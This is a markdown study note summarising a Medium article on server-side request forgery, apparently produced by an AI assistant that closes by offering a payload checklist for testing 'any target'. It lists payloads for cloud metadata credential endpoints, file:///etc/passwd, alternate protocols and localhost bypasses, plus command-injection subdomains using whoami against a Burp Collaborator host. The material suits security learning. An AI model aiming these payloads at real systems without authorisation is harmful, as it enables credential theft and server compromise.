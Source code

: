 # 🧠 SSRF
**SSRF** (Server‑Side Request Forgery) is a vulnerability where you trick a server into making HTTP requests **on your behalf**.  
If the server can be convinced to fetch a URL you control, you can often make it talk to **internal systems** or **cloud metadata services** that you normally can’t reach.

---

## 🔍 Core Idea
- The app has a feature like:
  ```
  GET /api/v1/fetch?url=https://site.com/image.jpeg
  ```
- You change the `url` parameter to something else — not an image, but an **internal address**.
- The server fetches it, and you get the response.

---

## ☁ Cloud Metadata Targets
Cloud providers expose special internal IPs that return **sensitive instance data**:

| Provider | Metadata IP/Host | Example Sensitive Paths |
|----------|------------------|-------------------------|
| AWS | `169.254.169.254` | `/latest/meta-data/iam/security-credentials` (access keys) |
| GCP | `metadata.google.internal` | `/computeMetadata/v1beta1/instance/service-account/default/token` (tokens) |

If you can make the vulnerable server request these, you can steal credentials.

---

## 🛠 Exploitation Flow (from the article)
1. **Test with your Burp Collaborator URL**  
   Replace the `url` param with something like:
   ```
   http://<your-collaborator>.burpcollaborator.net
   ```
   eg: if you have a website like:http://example.burpcollaporator.net ⇒ you can make RCE like :<br>

`http://`whoami`.example.burpcollaporator.net` OR `http://$(whoami).example.burpcollaporator.net`<br>
   If you see an HTTP/DNS hit, SSRF is confirmed.

2. **Pivot to internal targets**  
   Try:
   ```
   http://169.254.169.254/latest/meta-data/
   ```
   or for GCP:
   ```
   http://metadata.google.internal/...
   ```

3. **Grab sensitive data**
   - AWS: IAM role creds, instance identity docs, hostnames.
   - GCP: Access tokens, SSH keys.
   ### sensitive places for SSRF:

- `?url=file:///etc/passwd`
- `?url=gopher://`
- `?url=ssh://` ⇒ RCE
- `?url=dict://` (dictionary network protocol)
- `?url=ftp://` (file transfer protocol)
- `?url=ldap://` (lightweight directory access protocol)
- `?url=tftp://`

---

## 🧩 Tricks Mentioned
- **Alternate localhost forms**: `127.1`, `127.0.0.0.0.1`, `[::]` if `127.0.0.1` is blocked.
- **Other protocols**: `file:///etc/passwd`, `gopher://`, `ftp://`, `ldap://` — sometimes SSRF lets you hit non‑HTTP services.
- **Weird payloads**: Embedding SSRF in SVG, HTML, or media files to trigger server‑side fetches.
- **Command injection via DNS**: Using backticks or `$()` in subdomains to try RCE if the server resolves them.

---

## 📍 Where to Look for SSRF
The article lists common parameter names:
```
url, uri, link, target, dest, destination, page, path, site, file,
feed, proxy, host, domain, callback, webhook, img, photo, avatar,
upload_url, download, resource, api_url, endpoint, reference_url,
server, next, redir, redirect, return
```
Also:
- Certain HTTP headers (`X-Forwarded-Host`, `Origin`, `Host`).
- Full URL paths in requests.
- Inside uploaded files (HTML, SVG, XML) that the server might parse and fetch from.

---

## 🧠 TL;DR in One Sentence
If you can control a URL that the server fetches, you can make it talk to **internal networks** or **cloud metadata endpoints**, potentially leaking credentials or enabling further attacks.

---
[MEDIUM LINK](https://medium.com/@MohammedMHassan/ssrf-7c3f196e8d45)

If you want, I can make you a **ready‑to‑use SSRF testing checklist** with payloads, bypass tricks, and a step‑by‑step Burp workflow so you can test any target quickly without re‑reading the article each time.  
Do you want me to prepare that?
